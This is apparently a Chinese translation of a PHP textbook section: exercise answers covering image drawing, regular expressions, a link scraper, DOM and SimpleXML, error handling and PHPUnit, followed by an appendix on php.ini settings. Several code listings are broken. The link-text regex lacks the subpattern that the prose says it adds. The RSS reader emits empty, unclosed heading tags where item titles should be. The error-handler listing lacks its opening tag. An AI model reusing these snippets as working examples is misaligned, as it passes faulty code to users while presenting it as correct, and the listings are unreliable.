$white = imagecolorallocate( $myImage, 255, 255, 255 );
$red = imagecolorallocate( $myImage, 255, 0, 0 );
$green = imagecolorallocate( $myImage, 0, 255, 0 );
$diskTotal = disk_total_space( "/" );
$diskFree = disk_free_space( "/" );
$usedDegrees = intval( ( ( $diskTotal - $diskFree ) / $diskTotal ) * 360 );
```

imagefilledarc() 函数的工作方式与 imagearc() 函数相同，只不过它多了一个参数，用于指定该弧如何填充。PHP 常量 IMG_ARC_EDGED 会让 PHP 将弧的两个端点连接到弧的中心点，并用指定的颜色填充。你从 0 度开始，一直绘制弧线直到你为 $usedDegrees 计算出的度数。

```php
imagefilledarc( $myImage, $iWidth / 2, $iHeight / 2, $iWidth - 2, $iHeight - 2,
0, $usedDegrees, $red, IMG_ARC_EDGED );
```

要绘制表示空闲空间的弧线，你只需从已用空间结束的地方（即 $usedDegrees）开始，一直绘制弧线直到 360 度（圆的终点）：

```php
imagefilledarc( $myImage, $iWidth / 2, $iHeight / 2, $iWidth - 2, $iHeight - 2,
$usedDegrees, 360, $green, IMG_ARC_EDGED );
```

然后按通常方式完成：

```php
header( "Content-type: image/png" );
imagepng( $myImage );
imagedestroy( $myImage );
?>
```

图 A-3 显示了一次示例运行。


图 A-3

## 第 18 章

### 练习 1 解答

编写一个正则表达式从 Web URL 中提取域名相当简单，因为 URL 遵循一致的语法。你有很多方法来创建这样的表达式。以下是一种方法：

```regex
| (http(s)?\://)?(www\.)?([a-zA-Z0-9\-_.]+)|
```

该表达式的含义如下：

- 1. 如果 URL 中存在，匹配“http”或“https”，后面跟一个冒号和两个斜杠。
- 2. 如果存在，匹配“www.”。
- 3. 匹配以下字符，直到遇到不是字母、数字、连字符或点的字符。

由于该表达式包含多个子模式，你可以按如下方式提取域名部分：

```php
$url = "http://www.example.com/hello/there.html";
preg_match( "| (http(s)?\://)?(www\.)?([a-zA-Z0-9\-_.]+)|", $url, $matches );
echo "Domain name: " . $matches[4]; // Displays "Domain name: example.com"
```

### 练习 2 解答

要修改 find_links.php 脚本以同时显示每个链接中的文本，你只需要修改正则表达式，添加一个用于匹配链接文本的额外子模式：

```regex
/\<a\s*href=['"](.+?)['"].*?>\<\/a\>/i
```

然后只需在表格中显示结果即可。以下是修改后的 find_links.php 脚本，用于显示链接文本（已更改的行已突出显示）：

```php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Find Linked URLs in a Web Page</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>

<h1>Find Linked URLs in a Web Page</h1>

<?php
displayForm();

if ( isset( $_POST["submitted"] ) ) {
    processForm();
}

function displayForm() {
?>
<h2>Enter a URL to scan:</h2>
<form action="" method="post" style="width: 30em;">
<div>
<input type="hidden" name="submitted" value="1" />
<label for="url">URL:</label>
<input type="text" name="url" id="url" value="" />
<label> </label>
<input type="submit" name="submitButton" value="Find Links" />
</div>
</form>
<?php
}

function processForm() {
$url = $_POST["url"];
if ( !preg_match( '|^http(s)?://|', $url ) ) $url = "http://$url";
$html = file_get_contents( $url );
preg_match_all( "/<a\s*href=['\"]([^'\"]*)[^>]*>(.*)<\/a>/i", $html, $matches );

echo '<div style="clear: both;"></div>';
echo "<h2>Linked URLs found at " . htmlspecialchars( $url ) . ":</h2>";
echo "<table><tr><th>URL</th><th>Link text</th></tr>";

for ( $i = 0; $i < count( $matches[1] ); $i++ ) {
    echo "<tr><td>" . htmlspecialchars( $matches[1][$i] ) . "</td>";
    echo "<td>" . htmlspecialchars( $matches[2][$i] ) . "</td></tr>";
}

echo "</table>";
}

?>
</body>
</html>
```

## 第 19 章

### 练习 1 解答

要将“更改节点和属性”示例重写为使用 childNodes，你只需修改几行代码。以下是原始代码的相关部分：

```php
// Change the unit price of beetroot
if ( $child = $beetroot->firstChild ) {
    do {
        if ( $child->tagName == "unitPrice" ) {
            $child->firstChild->replaceData( 0, 10, "0.79" );
            break;
        }
    } while ( $child = $child->nextSibling );
}
```

以下是重写为使用 childNodes 的相同代码块：

```php
// Change the unit price of beetroot
$children = $beetroot->childNodes;
for ( $i=0; $i < $children->length; $i++ ) {
    if ( $children->item($i)->tagName == "unitPrice" ) {
        $children->item($i)->firstChild->replaceData( 0, 10, "0.79" );
        break;
    }
}
```

如你所见，修改后的代码更加紧凑。首先，它使用 childNodes 属性获取元素的子节点并将其存储在 $children 中。然后它遍历每个子节点，如果节点的标签名是 unitPrice ，它以与原始代码相同的方式替换其内容。

循环是如何工作的呢？好吧，你应该记得 DOMNodeList 对象有一个 length 属性，包含节点数量，还有一个 item() 方法，用于返回列表中指定索引处的节点。因此，代码利用这两条信息构建一个 for 循环来遍历每个节点。

### 练习 2 解答

使用 SimpleXML 编写一个简单的 RSS 阅读器出乎意料地容易，因为从 XML 文档中提取特定元素（以及元素列表）非常简单。以下是创建阅读器的方法：

```php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>An XML Feed Reader using the SimpleXML Extension</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>An XML Feed Reader using the SimpleXML Extension</h1>
```


```php
<?php
// Read the XML document into a SimpleXMLElement object
$rss = simplexml_load_file( "./rss_feed.xml", "SimpleXMLElement", LIBXML_NOCDATA );

// Display the feed details
echo "<h2>" . $rss->channel->title . "</h2>\n";
echo "<p>" . $rss->channel->description . "</p>\n";
echo "<p><em>Last updated: " . $rss->channel->lastBuildDate . "</em></p><hr />\n";

// Display each news item in turn
echo "<ul>\n";

foreach ( $rss->channel->item as $item )
{
    echo "<li>\n";
    echo "<h3 style=\"margin: 0;\">\n";
    echo "<h4 style=\"margin: 0;\">\n";
    echo "<p>$item->description <a href=\"$item->link\">Read more...</a></p>\n";
    echo "</li>\n";
}

echo "</ul>\n";

?>
</body>
</html>
```

该脚本相当自解释。显示XHTML页面页眉后，脚本使用simplexml_load_file()将RSS feed读入SimpleXMLElement对象。接着，它显示channel元素内的相关feed信息，并遍历channel元素内的每个item元素，在遍历过程中显示相关字段。

图A-4显示了针对练习中示例feed运行该脚本时的输出。


图A-4

## 第20章

### 练习1答案

这个错误处理程序只需检查传入的$errno参数，以确定错误级别是E_WARNING还是E_USER_WARNING，然后使用error_log()根据需要通过电子邮件发送或记录错误。出于方便，其他信息（如错误类型和当前变量）也会通过电子邮件发送或记录。（请注意，$levels数组仅包含自定义错误处理程序可以捕获的错误类型。）然后使用trigger_error()来测试错误处理程序：

```php
function myErrorHandler( $errno, $errstr, $errfile, $errline, $errcontext ) {
    $levels = array (
        E_WARNING => "Warning",
        E_NOTICE => "Notice",
        E_USER_ERROR => "Error",
        E_USER_WARNING => "Warning",
        E_USER_NOTICE => "Notice",
        E_STRICT => "Strict warning",
        E_RECOVERABLE_ERROR => "Recoverable error",
        E_DEPRECATED => "Deprecated feature",
        E_USER_DEPRECATED => "Deprecated feature"
    );
    $message = date( "Y-m-d H:i:s - " );
    $message .= $levels[$errno] . ": $errstr in $errfile, line $errline\n\n";
    $message .= "Variables:\n";
    $message .= print_r( $errcontext, true ) . "\n\n";
    if ( $errno == E_WARNING or $errno == E_USER_WARNING ) {
    error_log( $message, 1, "joe@example.com" );
    } else {
    error_log( $message, 3, "/home/joe/non_serious_errors.log" );
    }
}
set_error_handler( "myErrorHandler" );
trigger_error( "Simulated warning", E_USER_WARNING );
trigger_error( "Simulated notice", E_USER_NOTICE );
?>
```

### 练习2答案

Circle类有五个方面需要测试：存储颜色的能力、填充状态、非填充状态、半径，以及正确计算面积的能力。以下脚本对该类进行了全面测试：

```php
<?php
require_once( "inheritance.php" );
require_once( "PHPUnit/Framework.php" );
require_once( "PHPUnit/TextUI/TestRunner.php" );
class CircleTest extends PHPUnit_Framework_TestCase
{
public function testColor()
{
$circle = new Circle();
$circle->setColor( "red" );
$this->assertEquals( "red", $circle->getColor() );
}
public function testFill()
{
$circle = new Circle();
$circle->fill();
$this->assertTrue( $circle->isFilled() );
}
public function testHollow()
{
$circle = new Circle();
$circle->makeHollow();
$this->assertFalse( $circle->isFilled() );
}
public function testRadius()
{
    $circle = new Circle();
    $circle->setRadius( 10 );
    $this->assertEquals( 10, $circle->getRadius() );
}
public function testArea()
{
    $circle = new Circle();
    $circle->setRadius( 10 );
    $this->assertEquals( M_PI * pow( 10, 2 ), $circle->getArea() );
}
}

$testSuite = new PHPUnit_Framework_TestSuite();
$testSuite->addTest( new CircleTest( "testColor" ) );
$testSuite->addTest( new CircleTest( "testFill" ) );
$testSuite->addTest( new CircleTest( "testHollow" ) );
$testSuite->addTest( new CircleTest( "testRadius" ) );
$testSuite->addTest( new CircleTest( "testArea" ) );

PHPUnit_TextUI_TestRunner::run( $testSuite );
?>
```

# 配置PHP

PHP引擎拥有大量可调整的配置指令，用于改变引擎的行为。大多数指令可以通过以下任一方法设置：

- 在PHP配置文件php.ini中设置指令：PHP引擎启动时会读取该文件。所有指令都可以以这种方式设置。通常您需要root（管理员）权限才能编辑此文件。

- 通过编辑Apache .htaccess文件：如果您将PHP引擎作为Apache模块运行，可以在网站文档根目录中创建.htaccess文件并将指令放在其中。（如果您希望设置仅应用于该子文件夹中的文件和文件夹，也可以将.htaccess文件放在子文件夹中。）使用php_value Apache指令设置非布尔值的PHP指令，使用php_flag Apache指令设置布尔值的指令。例如：

  ```
  php_value upload_max_filesize 8M
  php_flag display_errors Off
  ```

- 在Apache httpd.conf配置文件中设置Apache指令：这与.htaccess文件的格式大致相同，但允许使用两个额外指令：php_admin_value和php_admin_flag。这些指令用于设置只能在php.ini或httpd.conf文件中设置的PHP指令（例如extension_dir或file_uploads）。有关在Apache httpd.conf和.htaccess文件中设置指令的更多信息，请参阅http://www.php.net/configuration.changes。

- 通过编辑.user.ini文件：与.htaccess类似，这基于每个目录工作。它设计用于PHP作为CGI或FastCGI应用程序运行时的情况（在这些情况下无法使用.htaccess）。它为指令使用php.ini格式，而不是.htaccess格式：

  ```
  upload_max_filesize = 8M
  display_errors = Off
  ```

尽管.user.ini是按目录配置文件的默认文件名，但您可以在php.ini中使用user_ini.filename指令选择不同的文件名。请参见本附录后面的“php.ini选项”部分。

- 在脚本文件中使用ini_set()：这使您的应用程序更具可移植性，因为设置存储在应用程序的脚本文件中，而不是存储在服务器范围的配置文件中。例如：

  ```
  ini_set( "display_errors", 1 )
  ```

虽然可以在php.ini文件中更改所有指令，但只有部分指令可以在.htaccess文件中或使用ini_set()更改。要了解可以在哪里更改指令，请参阅http://www.php.net/manual/en/ini.list.php表格中的Changeable列。

由于php.ini文件将所有指令集中在一个位置，因此值得浏览它，看看可以进行哪些配置更改。本附录将引导您了解php.ini文件中的每个部分。

您可以通过在PHP脚本中调用phpinfo()并查看结果，了解当前的所有配置设置。

当前PHP发行版中提供两个版本的php.ini文件：php.ini-development和php.ini-production。php.ini-development文件适用于开发环境，而php.ini-production文件适用于生产环境（即实时网站）。

本附录列出并描述了PHP 5.3.0版本随附的php.ini-development文件中的大部分内容，这很可能与您安装的文件非常接近。

php.ini-development中的所有设置都是内置默认设置。换句话说，如果PHP引擎找不到任何配置文件，它将使用与php.ini-development中相同的设置。

## 关于php.ini

php.ini-development文件的第一部分描述了php.ini文件的用途，并解释了PHP引擎如何定位要使用的php.ini文件。它还描述了文件中指令的基本语法，基本形式如下：

```
directive_name = directive_value
```

某些指令值可以使用按位运算符OR（|）、AND（&）和NOT（~或!）来构建。标志可以使用任意值1、On、True或Yes打开（使用0、Off、False或No关闭）。注释行以分号（;）开头。

```
;;;;;;;;;;;;;;;;;;;;;;;
; About php.ini ;
;;;;;;;;;;;;;;;;;;;;;;;
; PHP's initialization file, generally called php.ini, is responsible for
; configuring many of the aspects of PHP's behavior.
;
; PHP attempts to find and load this configuration from a number of locations.
```

; 以下是其搜索顺序的摘要：
; 1. SAPI 模块特定位置。
; 2. PHPRC 环境变量。（从 PHP 5.2.0 开始）
; 3. Windows 上的一些预定义注册表项（从 PHP 5.2.0 开始）
; 4. 当前工作目录（CLI 除外）
; 5. Web 服务器的目录（针对 SAPI 模块），或 PHP 目录
; （否则在 Windows 中）
; 6. 来自 --with-config-file-path 编译时选项的目录，或
; Windows 目录 (C:\windows 或 C:\winnt)
; 有关更具体的信息，请参阅 PHP 文档。
; http://php.net/configuration.file

; 文件的语法极其简单。空格和
; 以分号开头的行会被静默忽略（你可能已经猜到了）。
; 节标题（例如 [Foo]）也会被静默忽略，尽管
; 它们在未来可能有特定含义。

; 在节标题 [PATH=/www/mysite] 之后的指令仅
; 应用于 /www/mysite 目录中的 PHP 文件。在节标题 [HOST=www.example.com] 之后的
; 指令仅应用于从 www.example.com 提供的 PHP 文件。在这些
; 特殊节中设置的指令不能被用户定义的 INI 文件或
; 运行时设置覆盖。目前，[PATH=] 和 [HOST=] 节仅在
; CGI/FastCGI 下工作。
; http://php.net/ini.sections

; 指令使用以下语法指定：
; directive = value
; 指令名称*区分大小写* - foo=bar 与 FOO=bar 不同。
; 指令是用于配置 PHP 或 PHP 扩展的变量。
; 不存在名称验证。如果 PHP 找不到预期的
; 指令，因为它未设置或拼写错误，将使用默认值。

; 值可以是字符串、数字、PHP 常量（例如 E_ALL 或 M_PI）、
; INI 常量之一（On、Off、True、False、Yes、No 和 None）或表达式
; （例如 E_ALL & ~E_NOTICE）、带引号的字符串（"bar"），或对
; 先前设置的变量或指令的引用（例如 ${foo}）

; INI 文件中的表达式仅限于位运算符和
; 括号：
; - | 按位或
; - & 按位与
; - ~ 按位非
; - ! 布尔非

; 布尔标志可以使用值 1、On、True 或 Yes 打开。
; 可以使用值 0、Off、False 或 No 关闭。

; 空字符串可以通过在等号
; 后不写任何内容来表示，或通过使用 None 关键字：

```
; foo =     ; sets foo to an empty string
; foo = None        ; sets foo to an empty string
; foo = "None"      ; sets foo to the string 'None'
;
; If you use constants in your value, and these constants belong to a
; dynamically loaded extension (either a PHP extension or a Zend extension),
; you may only use these constants *after* the line that loads the extension.
```

## php.ini 选项

在 PHP 5.3 之前，如果你希望在以 CGI 或 FastCGI 应用程序运行的 PHP 引擎中配置按目录设置的 PHP，那很不幸，因为这类设置不支持 .htaccess 文件。在 5.3 版本中此问题已得到解决：现在，在 CGI 或 FastCGI 下运行时，可以将设置存储在文件夹中的 .user.ini 文件内，其工作方式与常规 .htaccess 文件类似。（有关更多详细信息，请参见本附录开头。）

配置文件的 php.ini 选项部分为该功能设置了各种选项。

```
;;;;;;;;;;;;;;;;;;;;
; php.ini Options ;
;;;;;;;;;;;;;;;;;;;;
;
; Name for user-defined php.ini (.htaccess) files. Default is ".user.ini"
;user_ini.filename = ".user.ini"
;
; To disable this feature set this option to empty value
;user_ini.filename =
;
; TTL for user-defined php.ini files (time-to-live) in seconds. Default is
; 300 seconds (5 minutes)
;user_ini.cache_ttl = 300
```

## 语言选项

php.ini 的语言选项部分包含 PHP 引擎和语言的一些常规设置。设置包括是否启用输出缓冲（output_buffering）以及是否使用 HTTP 压缩压缩页面（zlib.output_compression）。

```
;;;;;;;;;;;;;;;;;;;;
; Language Options ;
;;;;;;;;;;;;;;;;;;;;
;
; Enable the PHP scripting language engine under Apache.
; http://php.net/engine
engine = On
```

```
; This directive determines whether or not PHP will recognize code between
; <? and ?> tags as PHP source which should be processed as such. It's been
; recommended for several years that you not use the short tag "short cut" and
; instead to use the full <?php and ?> tag combination. With the wide spread use
; of XML and use of these tags by other languages, the server can become easily
; confused and end up parsing the wrong code in the wrong context. But because
; this short cut has been a feature for such a long time, it's currently still
; supported for backwards compatibility, but we recommend you don't use them.
; Default Value: On
; Development Value: Off
; Production Value: Off
; http://php.net/short-open-tag
short_open_tag = Off
```

```
; Allow ASP-style <% %> tags.
; http://php.net/asp-tags
asp_tags = Off
```

```
; The number of significant digits displayed in floating point numbers.
; http://php.net/precision
precision = 14
```

```
; Enforce year 2000 compliance (will cause problems with non-compliant browsers)
; http://php.net/y2k-compliance
y2k_compliance = On
```

```
; Output buffering is a mechanism for controlling how much output data
; (excluding headers and cookies) PHP should keep internally before pushing that
; data to the client. If your application's output exceeds this setting, PHP
; will send that data in chunks of roughly the size you specify.
; Turning on this setting and managing its maximum buffer size can yield some
; interesting side-effects depending on your application and web server.
; You may be able to send headers and cookies after you've already sent output
; through print or echo. You also may see performance benefits if your server is
; emitting less packets due to buffered output versus PHP streaming the output
; as it gets it. On production servers, 4096 bytes is a good setting for
; performance
; reasons.
; Note: Output buffering can also be controlled via Output Buffering Control
; functions.
; Possible Values:
;   On = Enabled and buffer is unlimited. (Use with caution)
;   Off = Disabled
;   Integer = Enables the buffer and sets its maximum size in bytes.
; Note: This directive is hardcoded to Off for the CLI SAPI
; Default Value: Off
; Development Value: 4096
; Production Value: 4096
; http://php.net/output-buffering
output_buffering = 4096
```

```
; You can redirect all of the output of your scripts to a function. For
; example, if you set output_handler to "mb_output_handler", character
; encoding will be transparently converted to the specified encoding.
; Setting any output handler automatically turns on output buffering.
; Note: People who wrote portable scripts should not depend on this ini
; directive. Instead, explicitly set the output handler using ob_start().
; Using this ini directive may cause problems unless you know what script
; is doing.
; Note: You cannot use both "mb_output_handler" with "ob_iconv_handler"
; and you cannot use both "ob_gzhandler" and "zlib.output_compression".
; Note: output_handler must be empty if this is set 'On' !!!!
; Instead you must use zlib.output_handler.
; http://php.net/output-handler
;output_handler =
```

; 使用 zlib 库进行透明输出压缩
; 此选项的有效值为 'off'、'on' 或用于压缩的特定缓冲区大小（默认值为 4KB）
; 注意：由于压缩的性质，生成的分块大小可能会有所不同。PHP
; 作为压缩的结果，输出每个几百字节的分块。如果你希望为了更好的
; 性能而使用较大的分块大小，请此外启用 output_buffering。
; 注意：你需要使用 zlib.output_handler 而不是标准的
; output_handler，否则输出将损坏。
; http://php.net/zlib.output-compression
zlib.output_compression = Off

; http://php.net/zlib.output-compression-level
;zlib.output_compression_level = -1

; 如果在此处激活了 zlib.output_compression，则无法指定其他输出处理程序。
; 此设置与 output_handler 作用相同，但顺序不同。
; http://php.net/zlib.output-handler
;zlib.output_handler =

; 隐式刷新指示 PHP 在每个输出块后自动刷新输出层。
; 这相当于在每次调用 print() 或 echo() 以及每个 HTML 块后调用
; PHP 函数 flush()。启用此选项会带来严重的性能
; 影响，通常仅建议用于调试目的。
; http://php.net/implicit-flush
; 注意：此指令对于 CLI SAPI 硬编码为 On
implicit_flush = Off

; 如果反序列化器找到应实例化的未定义类，则将调用 unserialize 回调函数（以未定义类的
; 名称作为参数）。如果指定的函数未定义，或该函数未包含/实现缺失的类，则会出现警告。
; 因此，只有在确实想实现此类
; 回调函数时才设置此项。
unserialize_callback_func =

; 序列化浮点数和双精度数时，在小数点后存储 serialize_precision 个有效数字。
; 默认值确保使用 unserialize 解码浮点数时，数据将保持不变。
serialize_precision = 100

; 此指令允许启用和禁用 PHP 在函数调用时按引用传递值时会发出的警告。
; 在函数调用时按引用传递值是一个弃用的特性，将被删除


```
; from PHP at some point in the near future. The acceptable method for passing a
; value by reference to a function is by declaring the reference in the functions
; definition, not at call time. This directive does not disable this feature, it
; only determines whether PHP will warn you about it or not. These warnings should be enabled in development environments only.
; Default Value: On (Suppress warnings)
; Development Value: Off (Issue warnings)
; Production Value: Off (Issue warnings)
; http://php.net/allow-call-time-pass-reference
allow_call_time_pass_reference = Off

; Safe Mode
; http://php.net/safe-mode
safe_mode = Off

; By default, Safe Mode does a UID compare check when
; opening files. If you want to relax this to a GID compare,
; then turn on safe_mode_gid.
; http://php.net/safe-mode-gid
safe_mode_gid = Off

; When safe_mode is on, UID/GID checks are bypassed when
; including files from this directory and its subdirectories.
; (directory must also be in include_path or full path must
; be used when including)
; http://php.net/safe-mode-include-dir
safe_mode_include_dir =

; When safe_mode is on, only executables located in the safe_mode_exec_dir
; will be allowed to be executed via the exec family of functions.
; http://php.net/safe-mode-exec-dir
safe_mode_exec_dir =

; Setting certain environment variables may be a potential security breach.
; This directive contains a comma-delimited list of prefixes.  In Safe Mode,
; the user may only alter environment variables whose names begin with the
; prefixes supplied here.  By default, users will only be able to set
; environment variables that begin with PHP_ (e.g. PHP_FOO=BAR).
; Note:  If this directive is empty, PHP will let the user modify ANY
; environment variable!
; http://php.net/safe-mode-allowed-env-vars
safe_mode_allowed_env_vars = PHP_

; This directive contains a comma-delimited list of environment variables that
; the end user won't be able to change using putenv().  These variables will be
; protected even if safe_mode_allowed_env_vars is set to allow to change them.
; http://php.net/safe-mode-protected-env-vars
safe_mode_protected_env_vars = LD_LIBRARY_PATH

; open_basedir, if set, limits all file operations to the defined directory
; and below.  This directive makes most sense if used in a per-directory
; or per-virtualhost web server configuration file.  This directive is
; *NOT* affected by whether Safe Mode is turned On or Off.
```

# 附录 B: 配置 PHP

```
; http://php.net/open-basedir
;open_basedir =
```

```
; This directive allows you to disable certain functions for security reasons.
; It receives a comma-delimited list of function names. This directive is
; *NOT* affected by whether Safe Mode is turned On or Off.
; http://php.net/disable-functions
disable_functions =
```

```
; This directive allows you to disable certain classes for security reasons.
; It receives a comma-delimited list of class names. This directive is
; *NOT* affected by whether Safe Mode is turned On or Off.
; http://php.net/disable-classes
disable_classes =
```

```
; Colors for Syntax Highlighting mode. Anything that's acceptable in
; <span style="color: ??????"> would work.
; http://php.net/syntax-highlighting
;highlight.string = #DD0000
;highlight.comment = #FF9900
;highlight.keyword = #007700
;highlight.bg = #FFFFFFF
;highlight.default = #0000BB
;highlight.html = #000000
```

```
; If enabled, the request will be allowed to complete even if the user aborts
; the request. Consider enabling it if executing long requests, which may end up
; being interrupted by the user or a browser timing out. PHP's default behavior
; is to disable this feature.
; http://php.net/ignore-user-abort
;ignore_user_abort = On
```

```
; Determines the size of the realpath cache to be used by PHP. This value should
; be increased on systems where PHP opens many files to reflect the quantity of
; the file operations performed.
; http://php.net/realpath-cache-size
;realpath_cache_size = 16k
```

```
; Duration of time, in seconds for which to cache realpath information for a given
; file or directory. For systems with rarely changing files, consider increasing
; this
; value.
; http://php.net/realpath-cache-ttl
;realpath_cache_ttl = 120
```

## 杂项

简短的杂项部分只包含一条指令 expose_php。如果设置为 On，那么网站访问者可以通过查看 HTTP 头部判断 Web 服务器是否运行 PHP。如果你想隐藏此事实，请将此指令设置为 Off。

```
;;;;;;;;;;;;;;;;;;;;;
; Miscellaneous ;
;;;;;;;;;;;;;;;;;;;;;
;
; Decides whether PHP may expose the fact that it is installed on the server
; (e.g. by adding its signature to the Web server header).  It is no security
; threat in any way, but it makes it possible to determine whether you use PHP
; on your server or not.
; http://php.net/expose-php
expose_php = On
```

## 资源限制

Web 服务器可分配给所有运行进程（包括 PHP 脚本）的 CPU 时间和 RAM 是有限的。因此，一段出错的 PHP 脚本可能会耗尽服务器上的所有资源，使该服务器陷入瘫痪。出于此原因，PHP 引擎对每个运行脚本可使用的资源量设定了某些限制。你可以在此处调整这些限制（不过如果可能，最好还是使用默认值）。

```
;;;;;;;;;;;;;;;;;;;;;
; Resource Limits ;
;;;;;;;;;;;;;;;;;;;;;

; Maximum execution time of each script, in seconds
; http://php.net/max-execution-time
; Note: This directive is hardcoded to 0 for the CLI SAPI
max_execution_time = 30

; Maximum amount of time each script may spend parsing request data. It’s a good
; idea to limit this time on production servers in order to eliminate unexpectedly
; long running scripts.
; Note: This directive is hardcoded to -1 for the CLI SAPI
; Default Value: -1 (Unlimited)
; Development Value: 60 (60 seconds)
; Production Value: 60 (60 seconds)
; http://php.net/max-input-time
max_input_time = 60

; Maximum input variable nesting level
; http://php.net/max-input-nesting-level
;max_input_nesting_level = 64

; Maximum amount of memory a script may consume (128MB)
; http://php.net/memory-limit
memory_limit = 128M
```

## 错误处理和日志

本节控制 PHP 如何处理和报告错误。如果你已阅读第 20 章中的“处理错误”部分，那么这些指令中的许多对你来说会很熟悉。另一个有用的指令是 ignore_repeated_errors，它确保如果同一行代码反复生成相同的错误，则该错误只记录一次。最后，track_errors 如果启用，会将最后一条错误消息存储在名为 $php_errormsg 的预定义变量中（仅在发生错误的作用域内可用）。

请记住，在线上 Web 服务器上运行 PHP 时，通常应将 display_errors 关闭。

```
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
; Error handling and logging ;
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;

; This directive informs PHP of which errors, warnings and notices you would like
; it to take action for. The recommended way of setting values for this
; directive is through the use of the error level constants and bitwise
; operators. The error level constants are below here for convenience as well as
; some common settings and their meanings.
; By default, PHP is set to take action on all errors, notices and warnings EXCEPT
; those related to E_NOTICE and E_STRICT, which together cover best practices and
; recommended coding standards in PHP. For performance reasons, this is the recommended error reporting setting. Your production server shouldn't be wasting resources complaining about best practices and coding standards. That's what development servers and development settings are for.
; Note: The php.ini-development file has this setting as E_ALL | E_STRICT. This means it pretty much reports everything which is exactly what you want during development and early testing.
;
; Error Level Constants:
; E_ALL             - All errors and warnings (includes E_STRICT as of PHP 6.0.0)
; E_ERROR           - fatal run-time errors
; E_RECOVERABLE_ERROR  - almost fatal run-time errors
; E_WARNING         - run-time warnings (non-fatal errors)
; E_PARSE           - compile-time parse errors
; E_NOTICE          - run-time notices (these are warnings which often result from a bug in your code, but it's possible that it was intentional (e.g., using an uninitialized variable and relying on the fact it's automatically initialized to an empty string)
; E_STRICT          - run-time notices, enable to have PHP suggest changes to your code which will ensure the best interoperability and forward compatibility of your code
; E_CORE_ERROR      - fatal errors that occur during PHP's initial startup
; E_CORE_WARNING    - warnings (non-fatal errors) that occur during PHP's initial startup
; E_COMPILE_ERROR   - fatal compile-time errors
; E_COMPILE_WARNING - compile-time warnings (non-fatal errors)
; E_USER_ERROR      - user-generated error message
; E_USER_WARNING    - user-generated warning message
; E_USER_NOTICE     - user-generated notice message
; E_DEPRECATED      - warn about code that will not work in future versions of PHP
; E_USER_DEPRECATED - user-generated deprecation warnings
;
; Common Values:
;   E_ALL & ~E_NOTICE  (Show all errors, except for notices and coding warnings.)
;   E_ALL & ~E_NOTICE | E_STRICT  (Show all errors, except for notices)
```


## 附录 B：配置 PHP

;  E_COMPILE_ERROR|E_RECOVERABLE_ERROR|E_ERROR|E_CORE_ERROR  (仅显示错误)
;  E_ALL | E_STRICT   (显示所有错误、警告和通知，包括编码标准。)
;
; 默认值：E_ALL & ~E_NOTICE
; 开发值：E_ALL | E_STRICT
; 生产值：E_ALL & ~E_DEPRECATED
; http://php.net/error-reporting
error_reporting =  E_ALL  | E_STRICT

;  此指令控制PHP是否以及在哪里输出错误、
;  通知和警告。在开发过程中，错误输出非常有用，但
;  在生产环境中可能非常危险。取决于触发错误的代码，
;  敏感信息可能会从您的应用程序中泄露，例如数据库用户名和密码，甚至更糟。
;  建议在生产服务器上记录错误，而不是
;  将错误发送到STDOUT。
;  可能的值：
;   Off = 不显示任何错误
;   stderr = 将错误显示到STDERR（仅影响CGI/CLI二进制文件！）
;   On 或 stdout = 将错误显示到STDOUT
;  默认值：On
;  开发值：On
;  生产值：Off
;  http://php.net/display-errors
display_errors = On

;  在PHP启动序列中发生的错误显示与display_errors分别处理。
;  PHP的默认行为是向客户端屏蔽这些错误。打开启动错误显示在
;  调试配置问题时很有用。但是，强烈建议您在
;  生产服务器上保持此设置关闭。
;  默认值：Off
;  开发值：On
;  生产值：Off
;  http://php.net/display-startup-errors
display_startup_errors = On

;  除了显示错误，PHP还可以将错误记录到特定于服务器的日志、
;  STDERR或由下面的error_log指令指定的位置。虽然不应在生产
;  服务器上显示错误，但仍应对其进行监控，而记录日志是做到这一点的好方法。
;  默认值：Off
;  开发值：On
;  生产值：On
;  http://php.net/log-errors
log_errors = On

;  设置log_errors的最大长度。在error_log信息中会添加关于源的信息。
;  默认值为1024，0表示不应用任何最大长度。
;  http://php.net/log-errors-max-len
log_errors_max_len = 1024

;  不要记录重复消息。重复的错误必须在同一文件的同一行上发生，
;  除非ignore_repeated_source设置为true。

```
; http://php.net/ignore-repeated-errors
ignore_repeated_errors = Off
```

```
; 忽略重复消息时忽略消息的来源。当此设置为
; On时，您不会记录来自不同文件或源行的重复消息的错误。
; http://php.net/ignore-repeated-source
;ignore_repeated_source = Off
```

```
; 如果此参数设置为Off，则不会显示内存泄漏（在
; stdout或日志中）。这仅在调试编译中有效，并且仅当
; 错误报告包括E_WARNING在允许列表中时才有效
; http://php.net/report-memleaks
report_memleaks = On
```

```
; 此设置默认开启。
;report_zend_debug = 0
```

```
; 将最后一条错误/警告消息存储在$php_errormsg中（布尔值）。将此值
; 设置为On可协助调试，并适用于开发服务器。但是，
;  应在生产服务器上禁用。
; 默认值：Off
; 开发值：On
; 生产值：Off
; http://php.net/track-errors
track_errors = On
```

```
; 关闭常规错误报告并发出XML-RPC错误XML
; http://php.net/xmlrpc-errors
;xmlrpc_errors = 0
```

```
; 一个XML-RPC faultCode
;xmlrpc_error_number = 0
```

```
; 当PHP显示或记录错误时，它有能力插入指向
; 与该错误相关的文档的HTML链接。此指令控制这些HTML链接是否
; 出现在错误消息中。出于性能和安全
; 原因，建议您在生产服务器上禁用此功能。
; 注意：此指令对于CLI SAPI被硬编码为Off
; 默认值：On
; 开发值：On
; 生产值：Off
; http://php.net/html-errors
html_errors = On
```

```
; 如果html_errors设置为On，PHP会生成可单击的错误消息，这些消息指向
; 详细描述错误或导致错误的函数的页面。
; 您可以从http://php.net/docs下载一份PHP手册的副本
; 并将'docref_root'更改为包含前导'/'的本地副本的基础URL。
; 您还必须指定正在使用的文件扩展名，包括
; 点号。PHP的默认行为是保留这些设置为空。
```

```
; 注意：绝不要在生产服务器上使用此功能。
; http://php.net/docref-root
; 示例
